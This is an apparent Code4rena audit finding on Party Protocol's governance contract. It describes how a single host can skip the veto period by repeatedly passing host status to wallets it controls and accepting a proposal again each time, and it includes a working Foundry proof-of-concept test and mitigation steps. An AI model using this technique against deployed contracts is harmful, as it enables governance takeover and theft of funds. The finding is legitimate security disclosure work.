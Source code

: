 # Original link
https://github.com/code-423n4/2023-10-party-findings/issues/233
# Lines of code

https://github.com/code-423n4/2023-10-party/blob/main/contracts/party/PartyGovernance.sol#L457


# Vulnerability details

## Impact

After a proposal passes the vote threshold, there is a delay before it can be executed so that hosts get a chance to `veto` it if they wish. If all hosts voting in favour of the proposal, then this veto period is skipped.

However, a single host can ensure the veto period is skipped even if no other hosts `accept` the proposal. The veto period is in place to prevent harmful/exploitative proposals from being executed, even if they are passed, and therefore a malicious/compromised host being able to skip the veto period can be seriously harmful to the protocol and its users. The [Tornado Cash governance hack](https://medium.com/coinmonks/tornado-cash-governance-hack-ec77ebb3aa68) from May 2023 is a relevant example, during which the attacker was able to steal around $1 million worth of assets.

This attack has a very low cost and a very high potential impact. If a malicious proposal is crafted in the same way used by the Tornado Cash attacker using hidden `CREATE2` and `SELFDESTRUCT` operations, then it is entirely feasible that it would meet the voting threshold as many voters may not be savvy enough to spot the red flags.

## Proof of Concept

`PartyGovernance#abdicateHost` is a function that allows a host to renounce their host privileges, and transfer them to another address.

```solidity
File: contracts\party\PartyGovernance.sol

457:     /// @notice Transfer party host status to another.
458:     /// @param newPartyHost The address of the new host.
459:     function abdicateHost(address newPartyHost) external {
460:         _assertHost();
461:         // 0 is a special case burn address.
462:         if (newPartyHost != address(0)) {
463:             // Cannot transfer host status to an existing host.
464:             if (isHost[newPartyHost]) {
465:                 revert InvalidNewHostError();
466:             }
467:             isHost[newPartyHost] = true;
468:         } else {
469:             // Burned the host status
470:             --numHosts;
471:         }
472:         isHost[msg.sender] = false;
473:         emit HostStatusTransferred(msg.sender, newPartyHost);
474:     }
```
https://github.com/code-423n4/2023-10-party/blob/main/contracts/party/PartyGovernance.sol#L457

This can be done at any stage in the life cycle of a proposal. This means that a host can `accept` a proposal, incrementing the `numHostsAccepted` value for that proposal, then transfer the host status to another wallet that they control (that has non-zero voting power) and `accept` again, incrementing `numHostsAccepted` for a second time. This process can be repeated as many times as necessary until `numHostsAccepted` is equal to the total number of hosts `numHosts`. Once the proposal reaches the required vote threshold, the veto period will be skipped, despite only one host accepting.

The following foundry test shows the process described above. Copy and paste it into PartyGovernanceTest.t.sol to run.

```solidity
    function test_maliciousHost() public {
        // Create users
        PartyParticipant alice = new PartyParticipant();
        PartyParticipant bob = new PartyParticipant();
        PartyParticipant chad = new PartyParticipant();
        PartyParticipant aliceAltWallet = new PartyParticipant();

        // Create party
        uint16 passThresholdBps = 5100;
        (
            Party party,
            IERC721[] memory preciousTokens,
            uint256[] memory preciousTokenIds
        ) = partyAdmin.createParty(
                partyImpl,
                PartyAdmin.PartyCreationMinimalOptions({
                    host1: address(alice),
                    host2: address(bob),
                    passThresholdBps: passThresholdBps,
                    totalVotingPower: 151,
                    preciousTokenAddress: address(toadz),
                    preciousTokenId: 1,
                    rageQuitTimestamp: 0,
                    feeBps: 0,
                    feeRecipient: payable(0)
                })
            );

        // alice and bob are the only two hosts
        assert(party.isHost(address(alice)));
        assert(party.isHost(address(bob)));
        assert(!party.isHost(address(chad)));
        assert(!party.isHost(address(aliceAltWallet)));

        // mint governance NFTs
        partyAdmin.mintGovNft(party, address(alice), 50, address(alice));
        partyAdmin.mintGovNft(party, address(bob), 50, address(bob));
        partyAdmin.mintGovNft(party, address(chad), 50, address(chad));
        partyAdmin.mintGovNft(party, address(aliceAltWallet), 1, address(aliceAltWallet));

        // alice proposes a proposal
        PartyGovernance.Proposal memory p1 = PartyGovernance.Proposal({
            maxExecutableTime: 9999999999,
            proposalData: abi.encodePacked([0]),
            cancelDelay: uint40(1 days)
        });
        vm.roll(block.number + 1);
        uint256 proposalId = alice.makeProposal(party, p1, 0);
        
        // chad accepts, but bob (the other host) does not
        vm.roll(block.number + 1);
        chad.vote(party, proposalId, 0);

        // proposal meets vote threshold, but not all hosts have accepted
        vm.roll(block.number + 1);
        (
            PartyGovernance.ProposalStatus status,
            PartyGovernance.ProposalStateValues memory values
        ) = party.getProposalStateInfo(proposalId);
        assertEq(values.numHosts, 2);
        assertEq(values.numHostsAccepted, 1);
        assertEq(uint(status), uint(PartyGovernance.ProposalStatus.Passed)); // not Ready => veto period has not been skipped

        // alice transfers host status to her other wallet address
        vm.prank(address(alice));
        vm.roll(block.number + 1);
        party.abdicateHost(address(aliceAltWallet));

        // alice accepts using her other wallet
        vm.roll(block.number + 1);
        aliceAltWallet.vote(party, proposalId, 0);

        // veto is now skipped even though a host (bob) did not accept
        vm.roll(block.number + 1);
        (status, values) = party.getProposalStateInfo(proposalId);
        assertEq(values.numHosts, 2);
        assertEq(values.numHostsAccepted, 2);
        assertEq(uint(status), uint(PartyGovernance.ProposalStatus.Ready)); // Ready for execution => veto period has now been skipped
    }
```

## Recommended Mitigation Steps

Utilise snapshots for hosts in a similar way to how `votingPower` is currently handled, so that `accept` only increments `numHostsAccepted` if the caller was a host at `proposedTime - 1`. This can be achieved under the current architecture in the following way:

- add a new `bool` member to the `VotingPowerSnapshot` struct named `isHost`
- make `abdicateHost` save new snapshots to the `_votingPowerSnapshotsByVoter` mapping with the updated `isHost` values for the old and new hosts
- replace the `isHost[msg.sender]` check in `accept` with a snapshot check, similar to how `getVotingPowerAt` is currently used



## Assessed type

Governance